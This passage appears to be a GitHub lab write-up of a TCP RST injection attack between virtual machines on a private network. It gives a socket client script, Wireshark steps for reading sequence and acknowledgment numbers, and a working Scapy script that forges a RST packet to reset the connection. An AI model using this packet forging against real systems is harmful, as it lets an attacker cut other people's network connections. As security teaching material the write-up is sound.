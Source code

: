       ![r2](https://github.com/user-attachments/assets/48654b34-86e0-42cb-87b0-b394a7cf0c9d)

**2.Client Script (Ubuntu VM):**

Run the following client script to connect to the server:

```python
import socket

client_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client_socket.connect(('192.168.100.50', 12345))  # Replace with the server VM's IP address
client_socket.sendall(b'Hello, server!')
client_socket.close()
```
![r3](https://github.com/user-attachments/assets/3d1731d1-01a9-4eef-8cf5-aeb7a1cfb73b)

Connection established:

![r4](https://github.com/user-attachments/assets/532019c6-8039-4bf7-aed0-3e33d07607db)

**3.Capture Sequence and Acknowledgment Numbers:**

Use the Wireshark capture to determine the sequence and acknowledgment numbers from the established connection. These numbers will be used in the attack scripts to craft valid RST packets.

Trace TCP handshake:

![r5](https://github.com/user-attachments/assets/2583e578-bcaf-483a-adf2-53a50fcd61ed)

Following ack and seq no. found for this session:

![r6](https://github.com/user-attachments/assets/301df6df-c08e-4492-a21a-788f222466a0)


## Attack Scripts

**Script 1: RST Packet Injection with Active Connection**
```python
from scapy.all import *

# IP addresses
src_ip = '192.168.100.51'  # Source IP address
dst_ip = '192.168.100.50'  # Destination IP address

# Port numbers
src_port = 12345  # Destination port from the original packet
dst_port = 47902  # Source port from the original packet

# Sequence and acknowledgment numbers
seq_num = 16      # Sequence number from the original packet
ack_num = 2       # Acknowledgment number from the original packet

# Create IP and TCP layers
ip = IP(src=src_ip, dst=dst_ip)
tcp = TCP(sport=src_port, dport=dst_port, flags='R', seq=seq_num, ack=ack_num)

# Combine layers into a single packet
rst_packet = ip/tcp

# Send the RST packet
send(rst_packet)
```
Running the script after connection and placement of ack & seq no. :
